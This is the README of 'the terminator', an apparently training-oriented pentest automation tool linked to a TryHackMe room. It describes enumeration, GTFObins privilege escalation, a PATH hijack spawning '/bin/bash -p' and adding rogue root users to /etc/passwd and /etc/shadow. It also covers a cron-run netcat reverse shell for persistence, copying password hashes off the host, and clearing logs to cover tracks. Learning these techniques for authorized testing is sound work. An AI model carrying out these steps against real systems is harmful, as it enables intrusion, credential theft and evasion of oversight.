 ![terminator-logo](https://github.com/suffs811/writeups/blob/main/terminator-img/small-terminator.png)
# the terminator
+++ a tool for automating common techniques for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

>check out the terminator's TryHackMe [room](https://tryhackme.com/jr/theterminator) to learn how to use this powerful tool!

>*feel free to use and test the terminator and share your suggestions in the [Discussions](https://github.com/suffs811/the-terminator/discussions/1)*
# contents
- terminator.py - tool for automating common techniques for enumeration, privilege escalation, persistence, exfiltration, and reporting
- directory-list.txt - default wordlist of common directory names for web enumeration (use -w in 'enum' module to specify a different wordlist)

<> the terminator automates every stage of a penetration test *except* gaining the initial shell (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)

# how to use
1) clone the repository to your computer
- `git clone https://github.com/suffs811/the-terminator.git`
- note: if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

2) deploy the terminator

<> the terminator has four modules. for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine (enum), second time on the target machine after gaining initial shell (priv), third time on target machine after gaining root privileges (root), and fourth time on your local machine to compile the report (report).
- enum - enumerate the target ip
- priv - attempt privilege escalation on target machine
- root - with root privileges, establish persistence and exfiltrate system data to local machine
- report - create .txt and .docx report files on local machine from data gathered using the previous modules

*see the [syntax](#syntax) section below for help on how to use each module*

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- `python3 terminator.py enum -t <target_ip_to_enumerate>`
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- `python3 terminator.py priv -u <new_root_username> -p <new_root_passwd>`

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- `python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>`
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- `python3 terminator.py report -o <output_file_name>`

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and search web page source code for 'username' and 'password'
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation (powered by GTFObins)
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen (the terminator can exploit over 30 different commands!)
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen (over 30 SUID files can be used by the terminator!)
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary (the terminator looks for 57 different commands to exploit!)
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- <> note: some privilege escalation vectors only provide you with escalated user privileges and not a full root shell; however, you can use your new escalated privileges to find another privilege escalation vector to gain a root shell (such as looking in /root or looking at root's password hash in /etc/shadow)

stage 3 - persistence and data exfiltration (ensure ssh is active on local machine)
- check for root permissions and suggest -f to bypass root check
- if root permissions is true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every minute

*if cronjob is not working, you might need to run 'crontab -e' then just add a space under the cronjob, and exit the file with 'Ctrl+x', 'y', 'enter'*

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input to local 'root' user; *scp will prompt for local user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from enum.txt (enumeration data), priv.txt (privilege escalation vector used to gain root privileges), and data_exfil.txt (peristence and target machine data) to .txt and .docx files with headings; use -o to specify desired file name

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: https://github.com/suffs811/SecLists/blob/master/Discovery/Web-Content/common.txt

*terminator has been tested on kali linux 2022.4 (local machine) and ubuntu unity 22.10 / Ubuntu 20.04.6 / Ubuntu 18.04.6 (target machine)*

-+- Leave a comment if you have any questions! -+-
